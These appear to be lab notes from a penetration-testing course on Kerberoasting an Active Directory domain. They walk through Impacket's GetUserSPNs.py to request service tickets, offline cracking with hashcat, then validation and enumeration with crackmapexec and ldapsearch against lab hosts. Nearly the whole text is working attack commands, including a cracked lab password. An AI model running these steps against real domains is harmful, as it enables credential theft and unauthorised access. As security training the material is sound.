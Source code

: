 ## Kerberoasting with GetUserSPNs.py

A prerequisite to performing Kerberoasting attacks is either domain user credentials (cleartext or just an NTLM hash if using Impacket), a shell in the context of a domain user, or account such as SYSTEM. Once we have this level of access, we can start. We must also know which host in the domain is a Domain Controller so we can query it.

Let's start by installing the Impacket toolkit, which we can grab from [Here](https://github.com/SecureAuthCorp/impacket). After cloning the repository, we can cd into the directory and install it as follows:

#### Installing Impacket using Pip

  Installing Impacket using Pip

```shell-session
Tachipy@htb[/htb]$ sudo python3 -m pip install .
```
#### Listing SPN Accounts with GetUserSPNs.py

  Listing SPN Accounts with GetUserSPNs.py

```shell-session
Tachipy@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/SAPService
```
#### Requesting all TGS Tickets

  Requesting all TGS Tickets

```shell-session
Tachipy@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 
```
#### Requesting a Single TGS ticket

  Requesting a Single TGS ticket

```shell-session
Tachipy@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/sqldev -request-user SAPService
```
#### Saving the TGS Ticket to an Output File

  Saving the TGS Ticket to an Output File

```shell-session
Tachipy@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/sqldev -request-user SAPService -outputfile sqldev_tgs
```
#### Cracking the Ticket Offline with Hashcat

  Cracking the Ticket Offline with Hashcat

```shell-session
Tachipy@htb[/htb]$ hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt 
```
#### Testing Authentication against a Domain Controller

```shell-session
Tachipy@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u SAPService -p !SapperFi2
```

#### Get User Membership
```shell
ldapsearch -h 172.16.5.5 -D "CN=SAPService,CN=Users,DC=INLANEFREIGHT,DC=LOCAL" -w '!SapperFi2' -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(sAMAccountName=SAPService)" memberOf

```